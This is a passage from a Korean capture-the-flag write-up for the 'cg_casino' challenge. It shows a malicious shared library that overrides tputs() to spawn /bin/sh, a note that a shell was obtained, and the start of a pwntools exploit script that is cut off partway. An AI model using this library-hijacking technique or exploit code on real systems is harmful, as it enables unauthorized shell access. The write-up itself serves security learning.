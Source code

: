 ```c
// tcc -shared -fPIC -Os -s -o mylib.so mylib.c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
#include<termios.h>

int tputs(const char *str, int affcnt, int (*putc)(int)){
    system("/bin/sh");
    return 0;
}
```


## 5. Result

exploit을 수행한 결과 아래와 같이 shell을 획득할 수 있다.

![Exploit success](/assets/img/posts/HS2024-1/cg_casino/exploit_success.png)

### Full exploit code

```python
import subprocess

from pwn import *


context.log_level = 'WARNING'
context.arch = 'x86_64'

binary = 'cg_casino'

HOST, PORT = '127.0.0.1 6677'.split(' ')


def put_voucher(voucher: bytes):
    info(p.recvuntil(b'6) exit'))
    p.sendline(b'1')
    info(p.recvuntil(b'voucher :'))
    p.sendline(voucher)

def merge_voucher(old_voucher: bytes):
    info(p.recvuntil(b'6) exit'))
    p.sendline(b'2')
    info(p.recvuntil(b'voucher :'))
    p.sendline(old_voucher)

def lotto(numbers: list, leak=False):
    info(p.recvuntil(b'6) exit'))
```